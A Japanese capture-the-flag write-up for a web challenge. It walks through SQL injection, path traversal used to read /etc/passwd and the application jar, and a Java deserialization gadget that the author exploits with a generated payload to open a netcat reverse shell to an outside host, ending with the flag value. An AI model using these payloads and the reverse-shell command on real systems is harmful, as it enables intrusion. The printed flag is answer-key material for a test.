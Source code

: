 # jargon:Web:95pts
This ticketing platform looks like it was built back in the late ’90s, yet somehow it’s still running in 2025. Many of the flaws it carries are relics of an older era of the web. The question is: can you still exploit these outdated systems today, or has old-school web exploitation become harder in the modern landscape?  

Address: [http://34.89.179.154:30926](http://34.89.179.154:30926)  

---

Q1. What is the flag? (Points: 95)  
ctf{sha256}  

# Solution
URLだけが渡されるので、ブラックボックスで解けということらしい。  
アクセスすると、コンタクトフォームのようだ。  
![site1.png](site/site1.png)  
送信すると、チケットが開かれる。  
![site2.png](site/site2.png)  
チケットのURLは`http://34.89.179.154:30926/ticket?id=51`であった。  
`id`に何かあるのでは思い。`'`を入れると以下のエラーが発生した。  
```
Error: [SQLITE_ERROR] SQL error or missing database (unrecognized token: "'")
```
SQLiが自明にあるので、テーブルをダンプしてみるが`tickets`のみであった。  
初めから右上の`Tickets`のリンク先である`http://34.89.179.154:30926/tickets?user=admin`で他人のチケットも閲覧できるため、特に情報量は増えていない。  
次に、チケットに添付したファイルが`http://34.89.179.154:30926/download?id=51`でDLできるらしいが、機能的に壊れている。  
この`id`にも何かあるのではと思い`../../../../../etc/passwd`を指定するとファイルが降ってきた。  
```bash
$ curl 'http://34.89.179.154:30926/download?id=../../../../../etc/passwd'
root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
~~~
```
`/flag`や`/flag.txt`には何もないため、ひとまず実行されているアプリケーションの場所を取得する。  
```bash
$ curl -s 'http://34.89.179.154:30926/download?id=../../../../../proc/self/cmdline' | strings
java
-jar
/app/target/jargon.jar
```
`/app/target/jargon.jar`のようなので、取得して展開する。  
```bash
$ curl -s 'http://34.89.179.154:30926/download?id=../../../../../app/tar
get/jargon.jar' -o jargon.jar
$ unzip jargon.jar -d extracted
Archive:  jargon.jar
~~~
  inflating: extracted/ctf/jargon/App.class
  inflating: extracted/ctf/jargon/Exploit.class
~~~
$ cd extracted/ctf/jargon/
$ wget https://www.benf.org/other/cfr/cfr-0.152.jar -O cfr.jar
~~~
$ java -jar cfr.jar App.class Exploit.class --outputdir decompiled
Processing ctf.jargon.App
Processing ctf.jargon.Exploit
```
`App`と`Exploit`があり、最も気になる`Exploit.java`は以下の通りであった。  
```java
/*
 * Decompiled with CFR 0.152.
 */
package ctf.jargon;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;

public class Exploit
implements Serializable {
    private static final long serialVersionUID = 1L;
    private String cmd;

    public Exploit(String cmd) {
        this.cmd = cmd;
    }

    private void readObject(ObjectInputStream in) throws IOException, ClassNotFoundException {
        in.defaultReadObject();
        Runtime.getRuntime().exec(this.cmd);
    }

    public String toString() {
        return "Exploit triggered with command: " + this.cmd;
    }
}
```
明らかにガジェットとして使ってくれとばかりに危険なコードである。  
もう一つの`App.java`には以下の個所が含まれるため、細工したオブジェクトをPOSTすると任意コードが実行可能となる。  
```java
~~~
    protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws IOException {
        String ctype = req.getContentType();
        resp.setContentType("text/html");
        if (ctype != null && ctype.startsWith("application/octet-stream")) {
            try (ObjectInputStream ois = new ObjectInputStream((InputStream)req.getInputStream());){
                Object obj = ois.readObject();
                resp.getWriter().println(this.header("Exploit") + "<div class='bg-red-900 p-6 rounded'><h2 class='text-xl font-bold text-red-300 mb-2'>[!] Deserialization Result</h2><p class='text-gray-200'>" + obj.toString() + "</p></div>" + this.footer());
~~~
```
以下のようなPayloadGen.javaでオブジェクトをシリアライズして利用する。  
リバースシェルは`nc s4t.pw 4444 -e sh`とし、自身の持つサーバ`s4t.pw`で`nc -lvnp 4444`と待ち受ける。  
```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import ctf.jargon.Exploit;

public class PayloadGen {
    public static void main(String[] args) throws Exception {
        Exploit e = new Exploit("nc s4t.pw 4444 -e sh");
        try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("payload.ser"))) {
            oos.writeObject(e);
        }
        System.out.println("wrote payload.ser");
    }
}
```
次のようにPOSTまで行う。  
```bash
$ tree
.
├── PayloadGen.java
└── ctf
    └── jargon
        ├── App.java
        └── Exploit.java

2 directories, 3 files
$ javac PayloadGen.java
$ java PayloadGen
wrote payload.ser
$ curl -X POST http://34.89.179.154:30926/contact -H 'Content-Type: application/octet-stream' --data-binary @payload.ser
<!DOCTYPE html><html lang='en'><head><meta charset='UTF-8'><meta name='viewport' content='width=device-width, initial-scale=1.0'><title>Exploit - Jargon Corp</title><script src='https://cdn.tailwindcss.com'></script></head><body class='bg-gray-900 text-gray-100 font-sans'><nav class='bg-gray-800 shadow mb-8'><div class='max-w-6xl mx-auto px-4 py-4 flex justify-between'><a href='/' class='text-indigo-400 text-xl font-bold'>Jargon Corp</a><div class='space-x-6'><a href='/' class='hover:text-indigo-300'>Home</a><a href='/tickets?user=admin' class='hover:text-indigo-300'>Tickets</a></div></div></nav><div class='max-w-4xl mx-auto px-4'><div class='bg-red-900 p-6 rounded'><h2 class='text-xl font-bold text-red-300 mb-2'>[!] Deserialization Result</h2><p class='text-gray-200'>Exploit triggered with command: nc s4t.pw 4444 -e sh</p></div></div><footer class='mt-12 bg-gray-800 py-4 text-center text-gray-400 text-sm'>© 2025 Jargon Corp — All rights reserved.</footer></body></html>
```
すると自身の持つサーバへ以下のようにシェルが降ってきた。  
```bash
$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 34.89.179.154 21525
ls
jargon.db
pom.xml
target
uploads
ls /
app
bin
dev
etc
flag-butlocationhastobesecret-1942e3.txt
home
lib
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
cat /flag-butlocationhastobesecret-1942e3.txt

ctf{a303b9d784195c971e0ff1c1c94723bcc26c4a0b714e919d898a26e82d6c843c}
```
`/flag-butlocationhastobesecret-1942e3.txt`にflagが書かれていた(SQLiは何に使うのか……)。  

## ctf{a303b9d784195c971e0ff1c1c94723bcc26c4a0b714e919d898a26e82d6c843c}